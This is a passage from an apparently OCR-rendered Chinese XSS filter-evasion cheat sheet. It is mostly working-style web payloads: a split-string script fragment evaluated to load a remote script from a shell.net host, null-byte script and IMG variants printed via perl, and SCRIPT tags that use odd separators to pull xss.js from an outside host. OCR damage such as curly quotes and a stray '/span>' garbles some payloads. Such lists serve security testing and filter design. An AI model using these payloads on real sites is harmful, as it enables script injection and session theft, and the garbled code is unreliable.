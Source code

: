   ```javascript
        <script>z=z+ ’write(“‘</script>
  
        <script>z=z+ ’<script’</script>
  
        <script>z=z+ ’ src=ht’</script>
  
        <script>z=z+ ’tp://ww’</script>
  
        <script>z=z+ ’w.shell’</script>
  
        <script>z=z+ ’.net/1.’</script>
  
        <script>z=z+ ’js></sc’</script>
  
        <script>z=z+ ’ript>”)’</script>
  
        <script>eval_r(z)</script>
  ```

- **空字符**，示例如下：

  ```
        perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out
  ```

- **空字符2,空字符在国内基本没效果.因为没有地方可以利用**，示例如下：

  ```
        perl -e ‘print “<SCR\0IPT>alert(\”XSS\”)</SCR\0IPT>”;’ > out
  ```

- **Spaces和meta前的IMG标签**，示例如下：

  ```
  <IMG SRC=\'#\'"  
  
  javascript:alert(‘XSS’);”>
  ```

- **Non-alpha-non-digit XSS**，示例如下：

  ```
  <SCRIPT/XSS SRC=\'#\'" /span>http://3w.org/XSS/xss.js”></SCRIPT>
  ```

- **Non-alpha-non-digit XSS to 2**，示例如下：

  ```
  <BODY onload!#$%&()*~+ -_.,:;?@[/|\]^`=alert(“XSS”)>
  ```

- **Non-alpha-non-digit XSS to 3**，示例如下：

  ```
  <SCRIPT/SRC=\'#\'" /span>http://3w.org/XSS/xss.js”></SCRIPT>
  ```

- **双开括号**，示例如下：
